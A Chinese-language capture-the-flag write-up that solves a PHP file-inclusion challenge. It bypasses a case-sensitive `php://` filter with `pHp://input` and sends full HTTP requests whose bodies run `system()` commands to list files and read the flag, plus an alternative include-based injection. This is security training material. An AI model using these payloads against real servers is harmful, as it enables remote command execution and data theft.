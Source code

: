 # Web_php_include

难度系数: 2.0

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

使用 `GET` 方式上传的 `hello` 直接显示它的内容. 同样使用 `GET` 方式上传的 `page` 会经过检查 `strstr($page, "php://")`. 如果包含任何 `php://` 都会删除. 然后读取文件 `page` 的内容.

我们可以简单绕过 `strstr()` 使用大小写, 利用伪协议执行 `Linux` 命令.

```
GET /?hello=1%0a&page=pHp://input HTTP/1.1
Host: 111.200.241.244:63890
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 22

<?php system("ls"); ?>
```

得到 `flag` 文件 `fl4gisisish3r3.php`.

最后只需要读取这文件:

```
GET /?hello=1%0a&page=pHp://input HTTP/1.1
Host: 111.200.241.244:63890
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 42

<?php system("cat fl4gisisish3r3.php"); ?>
```

`xctf` 的解题方式很漂亮: 

`?page=http://127.0.0.1/index.php/?hello=<?system("ls");?>`

利用 `hello` 执行命令写在 `http://127.0.0.1/index.php` 上, 然后用 `include($page)` 读取内容.
